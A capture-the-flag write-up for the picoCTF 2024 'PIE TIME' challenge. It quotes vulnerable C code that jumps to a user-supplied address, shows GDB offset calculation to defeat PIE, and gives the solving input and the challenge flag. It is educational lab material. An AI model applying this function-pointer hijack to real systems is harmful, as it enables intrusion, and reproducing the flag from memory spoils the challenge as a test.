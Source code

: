 # 📦 PIE TIME – picoCTF 2024

**Category:** Binary Exploitation  
**Difficulty:** Easy  
**Tags:** `PIE` `Function Pointer Hijack`

---

## 🧠 Description

> Can you try to get the flag? Beware we have PIE!  
> Connect to the program with netcat:  
> `nc rescued-float.picoctf.net 62785`  
> We’re given the binary and its source code.

---

## 📁 Files

- `vuln`
- `vuln.c`

---

## 🔍 Analysis

The given C code for `main()` is:

```c
int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0);

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);

  printf("Your input: %lx\n", val);
  void (*foo)(void) = (void (*)())val;
  foo();
}
```

### Observations:

- The binary prints the address of the `main()` function.
- It reads an address from user input, casts it to a function pointer, and jumps to it.
- There’s a `win()` function that prints the flag from `flag.txt`.
- The binary is PIE-enabled — base addresses change on each run.
- Our goal is to call `win()` by calculating its runtime address.

---

## 🧪 Exploitation Steps

1. Load the binary in GDB:

```bash
gdb ./vuln
```

2. Find offsets of functions:

```gdb
(gdb) info functions
...
0x00000000000012a7  win
0x000000000000133d  main
```

➡️ Offset = `main - win = 0x133d - 0x12a7 = 0x96`

3. Run the remote binary using `nc`:

```bash
nc rescued-float.picoctf.net 62785
```

Sample output:

```
Address of main: 0x598167f9d33d
```

4. Calculate `win()` address:

```
main = 0x598167f9d33d
win = main - 0x96 = 0x598167f9d2a7
```

5. Provide that address as input:

```
Enter the address to jump to, ex => 0x12345: 0x598167f9d2a7
```

6. Output:

```
You won!
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_80c3b8b7}
```

---

## 🏁 Flag

```
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_80c3b8b7}
```

---

## ✅ Takeaways

- PIE makes addresses random at runtime, but **relative offsets stay the same**.
- We can pivot to important functions if we know their offsets.
- Directly executing user-controlled addresses is risky and exploitable.

---
